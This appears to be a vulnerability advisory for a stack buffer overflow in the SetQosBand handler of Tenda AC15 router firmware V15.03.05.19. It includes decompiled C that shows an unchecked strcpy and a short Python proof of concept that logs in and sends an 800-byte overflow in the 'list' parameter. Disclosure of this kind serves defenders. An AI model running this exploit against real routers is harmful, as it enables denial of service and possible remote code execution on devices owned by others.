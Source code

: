 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function formSetQosBand->FUN_0007dd20, the content obtained by the program from the parameter "list" is passed to local_18, 
and then the local_18 as param_1 is passed to function FUN_0007dd20, then param_1 (local_14) is directly copied into the local_264 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formSetQosBand(undefined4 param_1)
{
 
  local_18 = FUN_0002ba8c(param_1,"list",&DAT_000e250c);
  FUN_0007dd20(local_18,"bandwidth.mode",L'\n');
  local_5c = 0;
 ...
}

undefined4 FUN_0007dd20(char *param_1,undefined4 param_2,byte param_3)
{
  int iVar1;
  
  char *local_20;
  int local_1c;
  int local_18;
  char *local_14;
  
  memset(auStack100,0,0x40);
  memset(auStack356,0,0x100);
  memset(local_264,0,0x100);

  memset(auStack1676,0,0x400);

  memset(auStack1964,0,0x100);
  local_18 = 0;
  local_1c = 0;
  FUN_0007db3c();
  local_14 = param_1;
  do {
    while( true ) {
      local_20 = strchr(local_14,(uint)param_3);
      if (local_20 == (char *)0x0) goto LAB_0007e0a0;
      local_1c = 0;
      *local_20 = '\0';
      local_20 = local_20 + 1;
      memset(local_264,0,0x100);
      strcpy(local_264,local_14); //here is overflow
      if (local_264[0] == ';') {
        sscanf(local_264,";%[^;];%[^;];%[^;];%[^;];",&local_26c,&local_28c,&local_6ac,&local_69c);
      }
      else {
        sscanf(local_264,"%[^\r]\r%[^\r]\r%[^\r]\r%s",auStack1964,&local_28c,&local_6ac,&local_69c);
        local_1c = 1;
      }
```

### * POC
```python
import requests


cmd  = b'list=AAAAAAAAAAAA\n' + b'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/SetNetControlList/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
